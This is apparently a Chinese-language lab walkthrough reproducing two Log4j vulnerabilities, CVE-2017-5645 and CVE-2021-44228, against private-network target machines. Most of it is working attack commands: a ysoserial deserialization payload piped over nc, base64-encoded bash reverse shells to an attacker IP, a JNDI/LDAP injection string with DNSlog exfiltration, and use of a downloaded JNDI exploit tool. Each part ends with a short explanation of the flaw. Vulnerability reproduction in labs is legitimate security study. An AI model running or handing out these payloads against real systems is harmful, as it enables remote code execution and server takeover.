# Log4j(CVE-2017-5645)

> 反序列化漏洞

### 环境搭建



- 靶机:`192.168.2.254:4712`
- 攻击机:`192.168.2.13`
- jdk 1.8

- 扫描确定端口是否正常开启,否则白忙活



- 下载`Ysoserial.jar`
- https://www.123pan.com/s/H4C6Vv-MGBjh.html提取码:GGBD

### 漏洞复现

- ysoserial生成paylaod发送

```bash
java -jar ysoserial.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.2.254 4712
```





- 这里不知道是什么原因,虽然没有成功创建处success,但是创建了一个`1`的文件时间是对的上的,说明存在远程命令执行
- 那么开始尝试反弹shell

```bash
#在线编码
http://www.hiencode.com/base64.html
#对反弹shell进行编码
sh -i >& /dev/tcp/192.168.2.13/8888 0>&1
#得到
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==
#写命令
bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" | nc 192.168.117.130 4712
```

- 开启监听

```bash
nc -lvvp 8888
```



- 执行命令

```bash
bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" | nc 192.168.117.130 4712
```



- 反弹成功



### 漏洞原理

- 概念:`Apache log4j`是一个用于java的`日志记录库`,支持启动远程日志服务
- 原理:以tcp为例,传入的`inputsstream`,没有`过滤`被包装为`ObjectInputStream`,传给`logEvents`后执行了`readObject()`进行反序列化

****

# Log4j(CVE-2021-44228)

> 远程命令执行

### 环境搭建



- 靶机:`192.168.2.254`
- 攻击机:`192.168.2.14`
- 需要用到`DNSlog`数据外带
- 访问:`http://192.168.2.254:8983/admin/cores?action=1`–>这里为什么要访问这个目录呢?
- 原因:根据官方文档

### 漏洞验证



- 我们传参数看看有什么效果



### 开始攻击



```json
# 是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：
?action=${jndi:ldap://${sys:java.version}.ri708t.dnslog.cn}
```

- DNS有数据被带出来说明存在`命令执行漏洞`
- 下载工具,准备攻击

```bash
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```



```bash
# 反弹shell
bash -i >& /dev/tcp/192.168.2.14/8888 0>&1
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTQvODg4OCAwPiYx
# 工具调用
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.2.14
```



- 与此同时再打开一个终端,监听`8888`端口

```bash
nc -lvnp 8888
```

- 将 `ldap://192.168.2.14:1389/2w5fqu`复制过来

```http
http://192.168.2.254:8983/solr/admin/cores?action=${jndi:ldap://192.168.2.14:1389/2w5fqu}
```



- 成功反弹



### 原理

- 当用户输入信息时,应用程序中的log4j2组件会将信息记录到日志中,假如日志中存在语句`{jnid:rmi://xxxx.dnslog.cn/bug}`,log4j就会去解析信息
- 通过`jndi`的`lookup()`方法去解析该url,解析到`rmi`就回去rmi中找一个叫bug的资源,找不到就会去http服务中找
- 在http服务中找到shell之后,会将资源信息返回给应用程序的log4j组件,而log4j组件就会下载下来,发现bug是个`.class`文件,就会执行里面的代码,攻击者可以通过shell实现任意命令执行

